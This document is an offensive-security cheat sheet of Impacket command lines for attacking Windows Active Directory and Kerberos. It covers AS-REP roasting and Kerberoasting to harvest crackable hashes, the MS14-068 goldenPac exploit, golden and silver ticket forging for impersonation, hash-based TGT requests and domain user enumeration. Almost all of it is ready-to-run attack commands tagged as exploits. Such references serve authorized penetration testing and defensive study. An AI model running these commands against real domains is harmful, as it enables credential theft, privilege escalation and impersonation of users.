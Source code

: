 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoasting)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ (ASREPRoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account (kerberoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
#plateform/linux #target/local  #cat/UTILS
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
#plateform/linux #target/remote  #cat/UTILS
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
#plateform/linux #target/remote  #cat/RECON 
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
